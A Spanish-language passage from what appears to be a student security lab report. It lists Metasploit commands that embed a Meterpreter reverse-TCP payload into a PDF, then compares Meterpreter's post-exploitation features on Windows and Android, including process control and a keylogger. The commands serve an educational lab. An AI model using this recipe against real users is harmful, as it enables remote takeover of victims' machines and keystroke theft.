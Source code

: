 Primero, se debe armar el PDF. Para ello, se necesita un archivo PDF de entrada, al cual inyectarle el \emph{payload}. Desde la consola de \texttt{msfconsole}, ejecutar los siguientes comandos:
\begin{itemize}
    \item \texttt{use exploit/windows/fileformat/adobe\_pdf\_embedded\_exe} 
    \item \texttt{set payload windows/meterpreter/reverse\_tcp} 
    \item \texttt{set INFILENAME <ARCHIVO\_ENTRADA.pdf} 
    \item \texttt{set FILENAME <ARCHIVO\_SALIDA.pdf} 
    \item \texttt{set LHOST <IP>} 
    \item \texttt{set LPORT <PUERTO\_DE\_ESCUCHA>} 
    \item \texttt{exploit} 
\end{itemize}

Creado el archivo, es cuestión de abrir en la máquina objetivo y configurar una máquina a la cual se conectará la primera (el procedimiento es el mismo a la vulnerabilidad anterior).

\subsection{\emph{Meterpreter} en Windows y en Android}

\emph{¿Qué capacidades tiene Meterpreter en Windows que no están presentes en Android?} 

Desde la consola de \emph{meterpreter} se puede ejecutar el comando \texttt{help} ó \texttt{?} para listar todos los comandos disponibles a ejecutar en el dispositivo objetivo - en el directorio  se incluyen dos archivos ( y ) con los distintos comandos disponibles para cada plataforma).

La principal diferencia que se puede ver examinando rápidamente la salida del comando de ayuda en cada plataforma es la posibilidad de gestionar procesos que se puede hacer en Windows pero no en Android; se pueden crear, eliminar (hasta se puede eliminar el proceso que tiene establecida la conexión). También permite ejecutar varios comandos a nivel de sistema, como puede ser recuperar variables de ambiente, obtener PIDs, reiniciar o apagar la computadora. Con respecto a la administración de redes, en la plataforma Windows se pueden examinar las conexiones abiertas con el comando \texttt{netstat}, el cual no está disponible para Android.  También se puede poner a correr un \emph{keylogger} \footnote{programas que realizan un seguimiento y registran cada tecla que se pulsa en una computadora \autocite{KasperskyKeylogger}}, para obtener las secuencias de teclas pulsadas por el usuario. 

